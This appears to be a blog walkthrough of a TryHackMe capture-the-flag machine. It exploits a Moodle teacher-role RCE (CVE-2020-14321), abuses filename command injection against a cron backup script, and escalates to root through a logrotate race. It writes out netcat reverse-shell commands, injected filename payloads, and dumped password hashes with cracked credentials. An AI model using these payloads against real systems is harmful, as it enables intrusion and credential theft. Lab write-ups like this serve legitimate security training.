

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/plottedlms)  | Hard  |  [sa.infinity8888](https://tryhackme.com/p/sa.infinity8888)  |


## Reconn

Hey welcome back to my blog! Today we are playing with a Hard level machine created by the "Plotted" series creator [sa.infinity8888](https://tryhackme.com/p/sa.infinity8888)!

Let's start enumerating!

```bash
╰─ map  10.10.210.16                                                                             ─╯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-23 11:50 CEST
Nmap scan report for 10.10.210.16
Host is up (0.11s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 67:af:92:c1:f0:9f:8a:18:62:8d:bf:ba:c4:58:8d:52 (RSA)
|   256 03:ca:42:df:ef:4b:3e:e6:91:0e:b2:bc:b4:42:1e:d1 (ECDSA)
|_  256 f1:ed:8a:8d:e4:87:d8:c7:69:c1:ca:2b:a4:dc:0c:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
873/tcp  open  http    Apache httpd 2.4.52 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.52 (Debian)
8820/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
9020/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.95 seconds
```

We enumeratre all the web ports and services running on the machine, TL;DR; Here is what we found:

|Port|Service|Found Platform|
|----|-------|--------------|
| 80 | Apache| N/A          |
| 873| Apache| Online Railway Reservation System V.1.0 |
| 8820 | Apache | Learning Managment System V.?? |
| 9020 | Apache | Moodle V.3.9.0-beta| 

Ports `873/8820` had some common vulnerabilities, but the creator fixed them, when you tried to exploit anything, you got something like "Trust me, it is not this easy!!!"

So we scanned the port `9020`.

```bash
╰─ python3 moodlescan.py -u http://10.10.220.166:9020/moodle/                                                                          ─╯


 .S_SsS_S.     sSSs_sSSs      sSSs_sSSs     .S_sSSs    S.        sSSs    sSSs    sSSs   .S_SSSs     .S_sSSs
.SS~S*S~SS.   d%%SP~YS%%b    d%%SP~YS%%b   .SS~YS%%b   SS.      d%%SP   d%%SP   d%%SP  .SS~SSSSS   .SS~YS%%b
S%S `Y' S%S  d%S'     `S%b  d%S'     `S%b  S%S   `S%b  S%S     d%S'    d%S'    d%S'    S%S   SSSS  S%S   `S%b
S%S     S%S  S%S       S%S  S%S       S%S  S%S    S%S  S%S     S%S     S%|     S%S     S%S    S%S  S%S    S%S
S%S     S%S  S&S       S&S  S&S       S&S  S%S    S&S  S&S     S&S     S&S     S&S     S%S SSSS%S  S%S    S&S
S&S     S&S  S&S       S&S  S&S       S&S  S&S    S&S  S&S     S&S_Ss  Y&Ss    S&S     S&S  SSS%S  S&S    S&S
S&S     S&S  S&S       S&S  S&S       S&S  S&S    S&S  S&S     S&S~SP  `S&&S   S&S     S&S    S&S  S&S    S&S
S&S     S&S  S&S       S&S  S&S       S&S  S&S    S&S  S&S     S&S       `S*S  S&S     S&S    S&S  S&S    S&S
S*S     S*S  S*b       d*S  S*b       d*S  S*S    d*S  S*b     S*b        l*S  S*b     S*S    S&S  S*S    S*S
S*S     S*S  S*S.     .S*S  S*S.     .S*S  S*S   .S*S  S*S.    S*S.      .S*P  S*S.    S*S    S*S  S*S    S*S
S*S     S*S   SSSbs_sdSSS    SSSbs_sdSSS   S*S_sdSSS    SSSbs   SSSbs  sSS*S    SSSbs  S*S    S*S  S*S    S*S
SSS     S*S    YSSP~YSSY      YSSP~YSSY    SSS~YSSY      YSSP    YSSP  YSS'      YSSP  SSS    S*S  S*S    SSS
        SP                                                                                    SP   SP
        Y                                                                                     Y    Y

Version 0.8 - May/2021
.............................................................................................................

By Victor Herrera - supported by www.incode.cl

.............................................................................................................

Getting server information http://10.10.220.166:9020/moodle/ ...

server          : Apache/2.4.41 (Ubuntu)
x-frame-options : sameorigin
last-modified   : Mon, 25 Apr 2022 13:50:09 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```

The scan didn't gave us anything, it was a normal `Moodle` platform, so we started the reconnaissance phase with a self-created account. And we found a course with the name "--Teachers Only--" and a Self enrolment with the Teacher role inside that course. It was strange, so a quick google search gave us the next step.



## Foothold - User

We found out that for `Moodle version 3.9` there's a RCE exploit if you have the Teacher role. (CVE-2020-14321).

And we did have that role!

So we downloaded the exploit from [here](https://github.com/HoangKien1020/CVE-2020-14321), and ran it against the machine

```bash
╰─ python3 exploit_mo.py -url http://10.10.93.142:9020/moodle/ -cookie=darsatmvtl2kanukccuur10den -cmd=ls                                                                                                ─╯
                           ***CVE 2020 14321***
    How to use this PoC script
    Case 1. If you have vaid credentials:
    python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
    Case 2. If you have valid cookie:
    python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

[+] Your target: http://10.10.93.142:9020/moodle/
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
http://10.10.93.142:9020/moodle//blocks/rce/lang/en/block_rce.php?cmd=ls
block_rce.php
```
Yes! We have now RCE! So we bind a reverse shell.

```bash
======== Terminal 1 =========
╰─ curl -v http://10.10.169.13:9020/moodle/blocks/rce/lang/en/block_rce.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.9.0.241%201337%20%3E%2Ftmp%2Ff
*   Trying 10.10.169.13:9020...
* Connected to 10.10.169.13 (10.10.169.13) port 9020 (#0)
> GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.9.0.241%201337%20%3E%2Ftmp%2Ff HTTP/1.1
> Host: 10.10.169.13:9020
> User-Agent: curl/7.74.0
> Accept: */*
>


======== Terminal 2 =========
╰─ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.0.241] from (UNKNOWN) [10.10.169.13] 35964
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$
```
But we can't read the user's flag...

So, let's scan the machine again to escalate our privileges to the `plot_admin` user!

We found a backup script in the `home` directory of the user...

```bash
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ cat /home/plot_admin/backup.py
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
    for file in files:
        os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```

It's not a so secure script, but we can't do anything with it, unless we have a `cronjob` running it...

```bash
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
* * * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
#
```

And there's an `cronjob` running it with the user `plot_admin`!! 

So, if you check the `backup.py` script, there are 2 variables:

`moodle_location` and `backup_location`

We have write permissions for the `path` that the variable `moodle_location` is pointing at!

And since that variable is not being sanitized, we can inject malicious code and it will be run since the script is using the function `os.system`!

So we basically made a file with the name `"|chmod -R 777 .|"` what will this filename do? It will break the code and since we have the pipe (|) character, in Linux it's used to execute another command after the current one! We give `R-W-X` permission to everyone for `home` directory of the user `plot_admin`!


```bash
www-data@plotted-lms://var/www/uploadedfiles/filedir$ ls -la
total 44
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|chmod -R 777 .|"'
drwxrwxrwx  9 www-data www-data 4096 Apr 24 09:30  .
drwxrwxrwx 10 www-data www-data 4096 Jan 31 10:54  ..
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  0c
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  5f
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  75
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  8c
drwxrwxrwx  3 www-data www-data 4096 Apr 24 09:27  bf
drwxrwxrwx  3 www-data www-data 4096 Feb  4 07:14  d9
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  da
-rw-rw-rw-  1 www-data www-data  168 Jan 31 10:52  warning.txt
```

After this we created a simple reverse shell and copied it to the `home` directory of the user, after that we used the same technique to execute this script as `plot_admin`!

```bash
www-data@plotted-lms://var/www/uploadedfiles/filedir$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.0.241 1338 >/tmp/f" > exploit.sh

www-data@plotted-lms://var/www/uploadedfiles/filedir$ mv exploit.sh /home/plot_admin/exploit.sh

www-data@plotted-lms://var/www/uploadedfiles/filedir$ echo "test" > '"|bash exploit.sh|"'

www-data@plotted-lms://var/www/uploadedfiles/filedir$ ls -la
total 48
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|bash exploit.sh|"'
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|chmod -R 777 .|"'
drwxrwxrwx  9 www-data www-data 4096 Apr 24 09:30  .
drwxrwxrwx 10 www-data www-data 4096 Jan 31 10:54  ..
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  0c
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  5f
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  75
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  8c
drwxrwxrwx  3 www-data www-data 4096 Apr 24 09:27  bf
drwxrwxrwx  3 www-data www-data 4096 Feb  4 07:14  d9
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  da
-rw-rw-rw-  1 www-data www-data  168 Jan 31 10:52  warning.txt
```

After a minute _(again)_ we received the reverse connection

```bash
╰─ nc -nlvp 1338                                                                                                                                                            
listening on [any] 1338 ...
connect to [10.9.0.241] from (UNKNOWN) [10.10.93.142] 52772
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted-lms:~$ id; whoami; pwd; cat /home/plot_admin/user.txt
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
plot_admin
/home/plot_admin
7[REDACTED]0
```
Yes! We made it! 

Now let's root this machine 😎

## Root

This part of the machine, took awhile to figure it out, too much overthinking :/

But we will make it clear and straightforward!

We used `linpeas` to scan the machine, and we found out the following:

`Linpeas` is showing us that there is an script being executed too many times in 1 minute:


```bash
[...]
╔══════════╣ Different processes executed during 1 min (interesting is low number of repetitions)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#frequent-cron-jobs
    287 /lib/systemd/systemd --user
    286 (sd-pam)
     31 /usr/bin/ssh root@127.0.0.1 . /etc/bash_completion
     31 /bin/sh -c /usr/bin/ssh root@127.0.0.1 '. /etc/bash_completion'
[...]
```

There's an script running `ssh` as root to the `localhost` and passing the `bash_completion` folder as argument... Strange... 

Checking the machines processes we found out the following

```bash
[...]
root        5322     597  0 10:12 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5347    5322  0 10:12 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/python3 /home/plot_admin/backup.py
plot_ad+    5348    5347  0 10:12 ?        00:00:02  |       \_ /usr/bin/python3 /home/plot_admin/backup.py
root        5482     597  0 10:13 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5548    5482  0 10:13 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/python3 /home/plot_admin/backup.py
plot_ad+    5558    5548  1 10:13 ?        00:00:02  |       \_ /usr/bin/python3 /home/plot_admin/backup.py
root        5633     597  0 10:14 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5651    5633  0 10:14 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/python3 /home/plot_admin/backup.py
plot_ad+    5656    5651  1 10:14 ?        00:00:01  |       \_ /usr/bin/python3 /home/plot_admin/backup.py
root        5705     597  0 10:15 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5817    5705  0 10:16 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/python3 /home/plot_admin/backup.py
plot_ad+    5832    5817  0 10:16 ?        00:00:00  |       \_ /usr/bin/python3 /home/plot_admin/backup.py
root        5706     597  0 10:15 ?        00:00:00  \_ /usr/sbin/CRON -f
root        5781    5706  0 10:16 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/ssh root@127.0.0.1 '. /etc/bash_completion'
root        5793    5781  0 10:16 ?        00:00:00  |       \_ /usr/bin/ssh root@127.0.0.1 . /etc/bash_completion
root        5774     597  0 10:16 ?        00:00:00  \_ /usr/sbin/CRON -f
plot_ad+    5851    5774  0 10:16 ?        00:00:00  |   \_ /usr/sbin/CRON -f
root        5775     597  0 10:16 ?        00:00:00  \_ /usr/sbin/CRON -f
root        5840    5775  0 10:16 ?        00:00:00  |   \_ /bin/sh -c /usr/bin/ssh root@127.0.0.1 '. /etc/bash_completion'
root        5844    5840  1 10:16 ?        00:00:00  |       \_ /usr/bin/ssh root@127.0.0.1 . /etc/bash_completion
root        5776     597  0 10:16 ?        00:00:00  \_ /usr/sbin/CRON -f
root        5845    5776  0 10:16 ?        00:00:00      \_ /bin/sh -c /usr/local/sbin/logrotate -f /etc/logbackup.cfg
root        5848    5845  0 10:16 ?        00:00:00          \_ /usr/local/sbin/logrotate -f /etc/logbackup.cfg
[...]
```

There's a `logrotate` cronjob in use!

We know that there's a way to escalate privileges with it, if some conditions are met...

Let's try to see the config file and version!

```bash
(remote) plot_admin@plotted-lms:/tmp$ ls -la /etc/logbackup.cfg
-rw-r--r-- 1 root root 86 Feb  6 03:29 /etc/logbackup.cfg

(remote) plot_admin@plotted-lms:/tmp$ cat /etc/logbackup.cfg
/home/plot_admin/.logs_backup/moodle_access {
    hourly
    missingok
    rotate 50
    create
}

(remote) plot_admin@plotted-lms:/tmp$ logrotate --version
logrotate 3.15.0

    Default mail command:       /bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate.status
    ACL support:                no
    SELinux support:            no
```

Great!! We have the version `3.15.0`(Vulnerable) and we can read the config file, the `create` argument is in use!

If you don't know how to exploit this vulnerability, [here is a nice explanation about it](https://medium.com/r3d-buck3t/linux-privesc-with-logrotate-utility-219b3aa7476b).

If you don't feel like reading that much, Here is a short summary of what we are going to do:

We will modify the file (`/home/plot_admin/.logs_backup/moodle_access`) so `logrotate` detects this change and we can get our reverse shell! To exploit this, we are going to use [logrotten](https://github.com/whotwagner/logrotten).

_BTW, I created a reverse shell with the name `shell.sh` in the current folder. (Sorry, I forgot the snippet :/)_

```bash
======== Terminal 1 =========
(remote) plot_admin@plotted-lms:/tmp$ cp /home/plot_admin/.logs_backup/02.06.2022 /home/plot_admin/.logs_backup/moodle_access; ./logrotten -p shell.sh /home/plot_admin/.logs_backup/moodle_access
Waiting for rotating /home/plot_admin/.logs_backup/moodle_access...
Renamed /home/plot_admin/.logs_backup with /home/plot_admin/.logs_backup2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

======== Terminal 2 =========
╰─ pwncat-cs -lp 1338                                                                                                                  ─╯
[01:13:10 PM] Welcome to pwncat 🐈!                                                                                        __main__.py:164
[01:13:58 PM] received connection from 10.10.37.208:51952                                                                       bind.py:84
[01:14:00 PM] 10.10.37.208:51952: registered new host w/ db                                                                 manager.py:957
(local) pwncat$ back
(remote) root@plotted-lms:/root# id; whoami;pwd; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
root
/root
Congratulations on completing this room!

flag - 2[REDACTED]2

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms
-sa.infinity8888
```

And we rooted the machine!

That's all from my side, hope you find this helpful!

## Possibles Rabbit Holes (MISC)


### Rails
On port 873, there's a SQL injection in the parameter SID, you don't need to be authenticated to exploit it. (There's also 2-3 more exploits, but they are patched by the creator)

https://packetstormsecurity.com/files/165493/Online-Railway-Reservation-System-1.0-SQL-Injection.html

Here's the loot, we couldn't crack that hash :/ 

If you were able to do it, please ping me and tell me if there's any other possible exploit!

```bash
Database: orrs
Table: users
[1 entry]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | 5765dcb76627ba4e2fd673e073def4ae |
+----------+----------------------------------+
```

Also, if you enumerate a little more that port, you will find the file `orrs_db.sql`, it's the export of the `orrs` database. It has some credentials for users.

```bash
+----------+---------------------------------------------+
| username | password                                    |
+----------+---------------------------------------------+
| admin    | 0192023a7bbd73250516f069df18b500 (admin123) |
| slou     | 1ed1255790523a907da869eab7306f5a (slou123)  |
+----------+---------------------------------------------+
```

### General 404/403/503 errors

When you hit a non existing page (404 error), you will see a Youtube link :p

```bash
╰─ curl http://10.10.220.166:9020/notreal | base64 -d                                                                                  ─╯
Try Harder!
Anyways here you go :D
https://www.youtube.com/watch?v=dQw4w9WgXcQ#
```

And for the records, because I don't remember the URL, there's one error that tells you to try `admin:admin` \-\_\_\-


### Priv Escalation to root

There's this cronjob for root, but we mostly think that is just a rabbit hole, we weren't 100% sure about that, but we didn't find any exploit/vulnerability for that.

```bash
plot_admin@plotted-lms:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
[...]
* * * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
#
```